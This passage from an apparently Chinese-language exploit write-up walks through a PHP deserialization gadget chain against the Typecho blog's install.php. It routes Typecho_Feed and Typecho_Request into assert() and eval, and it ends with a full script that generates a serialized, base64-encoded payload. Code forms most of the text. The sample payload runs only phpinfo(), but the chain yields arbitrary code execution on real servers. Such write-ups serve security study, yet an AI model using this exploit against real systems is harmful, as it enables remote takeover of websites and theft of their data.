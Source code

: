 首先我们需要**`_applyFilter`**中的**`$filter`**的值为一个命令函数这里一般选择**`assert()`**, 然后要让**`get()`**中的**`$value`**就是我们传入的命令也就是**`_params['screenName']`**，所以可以构造如下。

```
class Typecho\_Request
{
    private $\_params = array('screenName' =>'eval(\\'phpinfo();exit();\\')');
    private $\_filter = array('assert');
}

```

```
request.php
Feed.php
$item
\['author'\]->screenName
self::RSS2 == $this->\_type

```

```
class  Typecho\_Feed
{
    private $\_type = 'RSS 2.0';
    private $\_items ;
    public function \_\_construct (){
        $this->\_items\[\] = array('author' => new Typecho\_Request());
    }
}

```

最后回到**`install.php`**`中`看到**`$db=newTypecho_Db($config['adapter'],$config['prefix']);`**触发**`db.php`**中的**`__construct()`**需要传入 2 个值，但是有个是默认的所以我们传入一个我们序列化的上面的值就可以了。

**payload :**

```
<?php
class Typecho\_Request
{
    private $\_params = array('screenName' =>'eval(\\'phpinfo();exit();\\')');
    private $\_filter = array('assert');
}
class  Typecho\_Feed
{
    private $\_type = 'RSS 2.0';
    private $\_items ;
    public function \_\_construct (){
        $this->\_items\[\] = array('author' => new Typecho\_Request());
    }
}
$payload = array('adapter'=>new Typecho\_Feed());
echo base64\_encode(serialize($payload));
?>

```
